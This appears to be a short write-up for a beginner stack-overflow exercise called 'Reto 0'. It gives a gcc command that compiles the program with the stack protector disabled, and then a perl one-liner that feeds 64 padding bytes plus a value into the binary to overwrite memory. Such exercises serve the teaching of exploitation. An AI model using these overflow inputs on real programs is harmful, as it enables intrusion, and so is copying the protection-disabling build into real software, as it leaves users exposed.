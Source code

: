## Reto 0

### Compilation:

      gcc reto0.c -o reto0 -fno-stack-protector -m32

### Solution:

      perl -e 'print "a"x64 . "0x1"' | ./reto0
